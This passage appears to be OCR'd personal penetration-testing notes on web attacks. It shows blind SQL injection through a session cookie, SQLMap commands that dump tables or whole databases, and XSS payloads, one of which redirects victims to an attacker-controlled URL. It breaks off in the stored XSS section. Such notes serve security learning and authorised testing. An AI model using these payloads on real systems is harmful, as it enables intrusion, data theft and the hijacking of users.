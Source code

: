     Substring matching is basically asking the DB true or false questions. True being if the query works, and false being if it fails
    ```SQL
    <working payload> and substring(query,first char position,char length) = '<comparison value'

    # Example (If we were running version 8.0.5, this evaulate as true)
    Cookie: session=<session cookie>' and substring ((select version()), 1, 5) = '8.0.5'#
    ```
    * This is going to be very time consuming to do manually
- SQLMap
  * copy the entire post request to a .txt file
  * Run a basic SQLMap injection test  
  ```bash
  sqlmap -r <req.txt>
  ```
  * Run Advanced SQLMap injection tests
  ```bash
  sqlmap -r req2.txt --level=2 # --level=2 tests more parameters
  ```
  * SQLMap to dump items once injection is found
  ```bash
  # Dump an entire table
  sqlmap -r req2.txt --level=2 --dump -T <table name>

  # Dump the entire db 
  sqlmap -r req2.txt --level=2 --dump

  # Dump a list of tables
  sqlmap -r req2.txt --level=2 --tables
  ```
### XSS
#### DOM Based
  Check the network tab for a request that goes back to the server. If there isn't one, everything's being done in the DOM  
* Identification  
    - Sample Payloads

        ```javascript
         # Useful if the page reloads after submission
         <script>prompt()</script> # Should pop a prompt
         <script>print()</script> # Shoudl open the print dialog

         # if the page doesn't reload, you're going to have to find a way to trigger the payload
         <img src="" onerror="prompt(1)">

         # Forward the user to a different location (hint: such as a web server controlled by you with a payload)
         <img src=x onerror="window.location.href='http://<URL>'">
        ```
#### Stored XSS
Stored XSS sends data back to the server. XSS payloads will be visible to other users.
* Identification
    - Test for HTML injection first
    ```HTML
    <h1>test</h1>